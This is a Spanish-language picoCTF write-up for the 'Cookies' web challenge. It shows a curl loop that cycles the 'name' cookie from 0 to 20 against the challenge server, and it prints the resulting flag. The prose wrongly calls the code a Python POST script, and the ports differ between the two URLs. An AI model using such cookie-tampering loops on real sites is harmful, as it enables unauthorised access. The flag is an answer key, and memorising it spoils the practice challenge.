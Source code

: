 ## Descripción
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:54219/](http://mercury.picoctf.net:54219/)

## Solución
Mirando el conjunto de cookies después de ingresar snickerdoodle, vemos que tiene un valor de 0. Al probar y cambiar el valor de la cookie a 1, 2, etc., vemos que genera un nombre diferente. Supongo que un cierto valor de cookie nos devolverá la bandera.
Este script usa solicitudes de python para recorrer del 1 al 20 y configurarlo como nuestra cookie. Luego enviamos la solicitud de publicación y vemos qué devuelve.
```
┌──(diego㉿kali)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
          
```
Tenemos la bandera

## Bandera
picoCTF{3v3ry1_l0v3s_c00k135_064663be}
